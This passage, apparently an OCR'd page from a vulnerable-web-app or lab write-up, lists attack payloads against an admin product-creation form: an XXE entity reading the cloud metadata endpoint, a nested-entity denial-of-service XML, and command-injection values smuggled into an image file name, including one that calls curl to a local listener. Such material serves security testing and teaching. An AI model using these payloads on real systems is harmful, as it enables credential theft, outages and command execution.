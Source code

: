 ```xml
<?xml version='1.0' encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]>
<product>
  <title>test_product</title>
  <info>&xxe;</info>
  <value>9999</value>
  <img_path>dummy0.jpg</img_path>
</product>

```

-   DoS

```xml
?xml version='1.0' encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe "DoSDoSDoS">
<!ENTITY xxe1 "&xxe;&xxe;">
<!ENTITY xxe2 "&xxe1;&xxe1;">
]>
<product>
  <title>test_product</title>
  <info>&xxe2;</info>
  <value>9999</value>
  <img_path>dummy0.jpg</img_path>
</product>
```

## 🔍 Action

### New Products(admin) => Create Product

```c
[source]
app/controllers/admin/products_controller.rb
```

---

# OS command Injection

## 💻 Payload

```sh
dummy0.jpg;/bin/sleep+5
dummy0.jpg|/bin/sleep+5
dummy0.jpg|curl+http://host.docker.internal:9999;
# Listen port 9999 on local machine
```

## 🔍 Action
